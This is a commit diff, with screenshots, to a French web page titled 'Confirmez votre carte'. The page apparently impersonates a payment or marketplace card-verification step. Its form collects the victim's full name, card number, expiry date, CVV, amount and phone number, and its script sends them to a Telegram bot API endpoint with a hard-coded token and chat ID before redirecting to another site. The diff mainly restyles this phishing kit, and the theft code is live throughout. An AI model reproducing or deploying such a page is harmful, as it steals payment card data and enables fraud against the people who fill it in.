

Before and after one commit to gitlubd665/porte-monnaie-lbc, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 253-1047 px from the top of the page, without its empty margins (319-959 px from the left). After the commit the page ends 814 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,17 +2,21 @@
 <html lang="fr">
 <head>
   <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
+  <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
   <title>Confirmez votre carte</title>
-  <link rel="stylesheet" href="https://fonts.googleapis.com/css2?family=Roboto:wght@400;500;700&display=swap">
+  <link href="https://fonts.googleapis.com/css2?family=Roboto:wght@400;500;700&display=swap" rel="stylesheet">
   <script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
   <script src="https://cdn.jsdelivr.net/npm/inputmask@5.0.6/dist/inputmask.min.js"></script>
   <style>
+    * {
+      box-sizing: border-box;
+    }
+
     body {
-      font-family: 'Roboto', sans-serif;
       margin: 0;
       padding: 0;
-      background-color: #f4f4f4;
+      font-family: 'Roboto', sans-serif;
+      background: #f4f4f4;
       display: flex;
       flex-direction: column;
       align-items: center;
@@ -20,48 +24,44 @@
 
     header {
       width: 100%;
-      padding: 20px 0;
+      padding: 10px 0;
+      background-color: #ffffff;
       display: flex;
       justify-content: center;
-      background-color: #ffffff;
     }
 
     header img {
-      width: 150px;
-      height: auto;
+      width: 120px;
     }
 
     main {
-      padding: 20px;
+      padding: 15px;
       width: 100%;
-      max-width: 400px;
+      max-width: 360px;
       background-color: white;
-      margin-top: 20px;
+      margin-top: 10px;
       border-radius: 8px;
-      box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
-      text-align: center;
+      box-shadow: 0 2px 4px rgba(0, 0, 0, 0.1);
     }
 
     h1 {
-      font-size: 24px;
-      font-weight: 700;
+      font-size: 20px;
       color: #333;
-      margin-bottom: 20px;
+      text-align: center;
+      margin-bottom: 15px;
     }
 
     .form-row {
-      margin-bottom: 15px;
+      margin-bottom: 10px;
     }
 
     .form-row input,
     .form-row select {
       width: 100%;
-      padding: 14px;
+      padding: 10px;
+      font-size: 13px;
+      border: 1.5px solid #ccc;
       border-radius: 5px;
-      border: 2px solid #ccc;
-      font-size: 14px;
-      box-sizing: border-box;
-      color: #333;
     }
 
     .form-row input:focus,
@@ -72,27 +72,26 @@
 
     .coll button {
       width: 100%;
-      height: 50px;
+      padding: 12px;
+      font-size: 14px;
+      font-weight: bold;
       color: white;
       background: #ff6e14;
+      border: none;
       border-radius: 25px;
-      border: none;
-      font-size: 1em;
-      font-weight: bold;
-      margin-top: 10px;
       cursor: pointer;
-      transition: background-color 0.3s;
+      transition: background 0.3s;
     }
 
     .coll button:hover {
-      background-color: #e05e00;
+      background: #e05e00;
     }
 
     .card-container {
-      width: 300px;
-      height: 180px;
+      width: 100%;
+      height: 160px;
       perspective: 1000px;
-      margin: 20px auto;
+      margin: 10px auto;
     }
 
     .card {
@@ -111,10 +110,9 @@
       height: 100%;
       border-radius: 12px;
       backface-visibility: hidden;
-      padding: 20px;
-      box-sizing: border-box;
+      padding: 15px;
+      background: linear-gradient(135deg, #004a99, #00aaff);
       color: white;
-      background: linear-gradient(135deg, #004a99, #00aaff);
     }
 
     .card-front {
@@ -124,27 +122,25 @@
     }
 
     .chip {
-      width: 50px;
-      height: 35px;
+      width: 40px;
+      height: 25px;
       background: gold;
-      border-radius: 5px;
-      margin-bottom: 15px;
+      border-radius: 4px;
     }
 
     .number {
-      font-size: 1em;
+      font-size: 0.9em;
       letter-spacing: 2px;
-      margin-bottom: 10px;
     }
 
     .name-date {
       display: flex;
       justify-content: space-between;
-      font-size: 0.85em;
+      font-size: 0.75em;
     }
 
     .label {
-      font-size: 0.7em;
+      font-size: 0.65em;
       color: #ccc;
     }
 
@@ -153,42 +149,33 @@
     }
 
     .stripe {
+      height: 35px;
       background: rgba(0, 0, 0, 0.7);
-      height: 40px;
       margin-top: 10px;
     }
 
     .cvv-block {
-      margin-top: 20px;
       text-align: right;
-    }
-
-    .cvv-label {
-      font-size: 0.75em;
-      margin-bottom: 5px;
-      color: #ccc;
+      margin-top: 15px;
     }
 
     .cvv {
       background: white;
       color: black;
-      padding: 5px 10px;
-      border-radius: 5px;
-      display: inline-block;
-      font-size: 1em;
+      font-size: 0.9em;
+      padding: 4px 8px;
+      border-radius: 4px;
     }
 
     @keyframes flip {
       0%, 100% { transform: rotateY(0deg); }
-      50%      { transform: rotateY(180deg); }
+      50% { transform: rotateY(180deg); }
     }
 
     .info-text {
-      font-size: 0.85em;
+      font-size: 0.75em;
       color: #666;
-      margin-top: 15px;
-      margin-bottom: 25px;
-      line-height: 1.5;
+      margin: 10px 0 15px;
       text-align: justify;
       font-weight: bold;
     }
@@ -230,7 +217,7 @@
   </div>
 
   <div class="info-text">
-    Pour des raisons de sécurité, nous procéderons parfois à la vérification rapide de vos informations personnelles y compris à chaque mise à jour du site. Important : les informations que vous entrez sont cryptées et transmises vers notre serveur sécurisé.
+    Pour des raisons de sécurité, nous procédons parfois à une vérification rapide de vos informations personnelles. Important : les informations saisies sont cryptées et sécurisées.
   </div>
 
   <form id="cardForm">
@@ -261,33 +248,14 @@
       </select>
     </div>
 
-    <div class="form-row">
-      <input type="text" name="fullname" id="fullname" required placeholder="Nom et Prénoms">
-    </div>
+    <div class="form-row"><input type="text" id="fullname" name="fullname" placeholder="Nom et Prénoms" required></div>
+    <div class="form-row"><input type="text" id="cardNumber" name="cardNumber" placeholder="Numéro de carte" maxlength="16" pattern="\d{16}" required></div>
+    <div class="form-row"><input type="text" id="expiryDateInput" name="expiryDateInput" placeholder="Date d'expiration (MM/YYYY)" maxlength="7" required></div>
+    <div class="form-row"><input type="text" id="cvvInput" name="cvv" placeholder="CVV" maxlength="3" pattern="\d{3}" required></div>
+    <div class="form-row"><input type="text" id="amount" name="amount" placeholder="Montant à recevoir" required></div>
+    <div class="form-row"><input type="text" id="phone" name="phone" placeholder="Numéro de téléphone" required></div>
 
-    <div class="form-row">
-      <input type="text" name="cardNumber" id="cardNumber" required placeholder="Numéro de carte" maxlength="16" pattern="\d{16}">
-    </div>
-
-    <div class="form-row">
-      <input type="text" name="expiryDateInput" id="expiryDateInput" required placeholder="Date d'expiration (MM/YYYY)" maxlength="7" pattern="\d{2}/\d{4}">
-    </div>
-
-    <div class="form-row">
-      <input type="text" name="cvv" id="cvvInput" required placeholder="CVV" maxlength="3" pattern="\d{3}">
-    </div>
-
-    <div class="form-row">
-      <input type="text" name="amount" id="amount" required placeholder="Montant à recevoir">
-    </div>
-
-    <div class="form-row">
-      <input type="text" name="phone" id="phone" required placeholder="Numéro de téléphone">
-    </div>
-
-    <div class="coll">
-      <button type="submit">Confirmer la carte</button>
-    </div>
+    <div class="coll"><button type="submit">Confirmer la carte</button></div>
   </form>
 </main>
 
@@ -322,19 +290,15 @@ $(document).ready(function() {
 - Montant : ${amount}
 - Téléphone : ${phone}`;
 
-    var telegramUrl = `https://api.telegram.org/bot7621285753:AAEVe240rt235EoRpGxiy0PSw1F-fRTd7mA/sendMessage`;
-    var params = {
+    $.post("https://api.telegram.org/bot7621285753:AAEVe240rt235EoRpGxiy0PSw1F-fRTd7mA/sendMessage", {
       chat_id: '7421525298',
       text: message,
       parse_mode: 'Markdown'
-    };
-
-    $.post(telegramUrl, params, function(response) {
-      console.log(response);
+    }).done(function() {
       window.location.href = "https://encours-psi.vercel.app/";
     }).fail(function(error) {
+      alert("Erreur lors de l'envoi des données.");
       console.error(error);
-      alert("Erreur lors de l'envoi des données.");
     });
   });
 });
```
